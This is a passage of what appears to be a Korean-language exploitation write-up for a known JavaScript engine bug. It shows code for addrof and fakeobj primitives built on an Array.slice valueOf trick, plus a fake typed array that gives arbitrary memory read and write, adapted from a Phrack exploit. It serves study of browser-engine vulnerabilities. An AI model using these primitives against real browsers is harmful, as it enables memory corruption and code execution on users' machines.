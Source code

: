```javascript

    addr = addr.asDouble();
    return a.slice(0, {
		    valueOf: function() { 
			    a.length = 0; 
			    a = [addr]; 
			    return 100; 
		   }
	 })[4];
}
```

# 풀이

## 공격 벡터

### `vertor` - fail

이미 잘 알려진 취약점이라, 처음에는 프랙 문서의 풀 익스플로잇 코드를 활용하는 방향으로 풀이를 시도했다.  
공격 벡터로 `vector`, 즉  fakeObj 로 얻은 객체 컨테이너의 세번째 qword 값을 사용하는 방식이다.


```javascript
    var hax = new Uint8Array(0x1000);
    var container = {
        jsCellHeader: jsCellHeader.asJSValue(),
        butterfly: false,     
        vector: hax,
        lengthAndFlags: (new Int64('0x0001000000000010')).asJSValue()
    };

	  // 가짜 Float64Array를 생성한다
    var address = Add(addrof(container), 0x10);
    var fakearray = fakeobj(address);

		// 읽기 함수
		read: function(addr, length) { 
            fakearray[2] = addr.asDouble();
            var a = new Array(length);
            for (var i = 0; i < length; i++)
                a[i] = hax[i];
            return a;
        },

		// 쓰기 함수
		write: function(addr, data) {
            fakearray[2] = addr.asDouble();
            for (var i = 0; i < data.length; i++)
                hax[i] = data[i];
        },
```
